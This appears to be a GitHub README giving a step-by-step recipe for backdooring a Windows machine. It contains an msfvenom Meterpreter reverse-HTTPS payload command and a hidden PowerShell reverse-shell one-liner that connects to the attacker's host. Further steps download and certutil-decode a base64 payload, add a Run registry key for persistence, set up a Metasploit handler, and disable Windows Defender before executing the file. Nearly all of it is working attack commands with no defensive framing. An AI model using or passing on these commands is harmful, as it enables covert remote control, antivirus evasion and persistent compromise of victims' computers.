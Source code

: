 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=192.x.x.x lport=1337  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp 1337
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('192.x.x.x', 1337);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` powershell
mkdir C:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` powershell 
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString("http://192.x.x.x:8000/file-encode.txt") > file.txt
```
## Ddecode Base64

``` powershell
certutil -decode C:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
``` msfconsole
use exploit/multi/handler
``` 
- Set Payload
``` msfconsole
set payload windows/meterpreter/reverse_https
```
- Set lhost
``` msfconsole
set lhost 192.x.x.x 
```
- Set lport
``` msfconsole
set lport 1337
```
- Run
``` msfconsole
run 
```
## Disable Windows Defender
``` powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Unlock Backdoor
```powershell
Unblock-File -Path C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```powershell
./decode.exe
```
